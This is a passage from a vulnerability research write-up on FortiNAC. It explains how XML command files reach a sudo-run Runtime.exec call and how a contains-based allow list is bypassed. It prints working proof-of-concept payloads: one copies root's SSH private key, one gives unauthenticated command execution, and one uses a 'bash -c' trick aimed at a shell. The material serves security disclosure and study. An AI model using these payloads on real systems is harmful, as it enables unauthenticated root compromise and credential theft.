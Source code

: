 At `[20]` the `commandVector` queue is checked for entries by retrieving and removing the head of the queue. From an entry, it takes the `commandName` value `[21]` as `systemCommand`, iterates over a list of `args` values and *concatenates*  them into a single String `[22]`. Finally, at `[23]` the overall command gets executed with a classic `java.lang.Runtime.getRuntime().exec(String command)` call. And...with `sudo` which means **built-in privilege escalation from `nac` to `root`**.

Well, we seem to be restricted to the *allowed commands* but these already are quite powerful. For a proof-of-concept argument injection payload we build another `test.xml`.

```xml
<?xml version="1.0" encoding="utf-8"?>
<commandName>installAgentPackage
<arg>/root
</arg>
<arg>
.ssh/id_rsa
</arg>
</commandName>
```

This should copy us the SSH private key of the `root` user to the directory `/bsc/campusMgr/agent/packages`. Works just fine! With these scripts one can already do several dangerous operations on the FortiNAC instance (reconfigure the Apache!) but again: not satisfied, yet.

### Allow List Bypass - Argument Injection to Command Injection

The experienced code auditors among you might already have spotted some flaw in the `com.bsc.server.CampusManager.isAllowedRemoteCommand(String cmd)` in the snippet above.

```java
if (cmd.contains(s)) {
    retval = true;
    break;
}
```

The good old `contains` vs. `equals` case. Remember, we want to get rid of the argument injection case, so we've to get full control over the first command after `sudo`. Take this `test.xml` for example.

```xml
<?xml version="1.0" encoding="utf-8"?>
<commandName>touch /tmp/RCE installAgentPackage
<arg>
</arg>
</commandName>
```

This `commandName` indeed contains `installAgentPackage`, an allowed command. This will indeed execute as expected, **giving us unauthenticated RCE**, at least from a proof-of-concept point of view. But what we really want is a reverse shell or so. This time, we borrow a [well-known trick to get a full shell environment](https://codewhitesec.blogspot.com/2015/03/sh-or-getting-shell-environment-from.html) in `Runtime.getRuntime().exec` calls. A new `text.xml`, please.

```xml
<?xml version="1.0" encoding="utf-8"?>
<commandName>bash -c $@|bash installAgentPackage echo touch /tmp/RCE
<arg>
</arg>
</commandName>
```
